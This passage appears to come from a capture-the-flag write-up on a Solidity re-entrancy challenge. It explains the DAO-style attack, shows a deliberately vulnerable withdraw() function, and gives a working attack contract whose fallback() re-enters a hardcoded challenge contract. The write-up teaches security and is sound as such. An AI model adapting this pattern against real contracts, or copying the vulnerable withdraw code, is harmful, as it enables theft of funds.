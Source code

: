 ```solidity
        lock = true;
    }
}
```
If you know about re-entrancy attacks (e.g. the famous DAO attack in 2016 where 3.6 million ETH tokens where drained), the vulnerability with `msg.sender.call("")` will be the first thing to stand out. Often in a `withdraw()` function of a contract, funds are transferred to the requester via a low-level function `call` (see [details](https://solidity-by-example.org/call/)).

```solidity
//exploitable withdraw function, via reentrancy
function withdraw() public{
    (bool sent,)=msg.sender.call{value:bal}();

    //never resets balances mapping
    require(sent,"failed"); 
    balances[msg.sender]=0
}
```

However, sending ether to a contract via `call` triggers either a `receive()` or a `fallback()` function in the receiving contract `msg.sender`, as detailed in [here](https://solidity-by-example.org/sending-ether/). We could deploy a malicious contract with a `fallback()` function which simply calls `withdraw()` in the victim contract again, thus repeatedly re-entering the withdraw function until the victim contract is drained. 

Switching context back to the simple challenge, all we have to do is call `lock_me()` in an attacker contract’s fallback function.


**Attack contract:**

```solidity
pragma solidity 0.8.10;

interface challengeInterface{
    function winners(uint256 i) external returns(address);    
    function exploit_me(address winner) external;
    function lock_me() external;
}

contract MyAttack{    
    //trail of bits challenge addr
    address chAddress = 0xcD7AB80Da7C893f86fA8deDDf862b74D94f4478E;
    challengeInterface public challengeContract = challengeInterface(chAddress);
    fallback() external{
        challengeContract.lock_me();
    }
    function attack() external {
        challengeContract.exploit_me(msg.sender);
    }
}
```

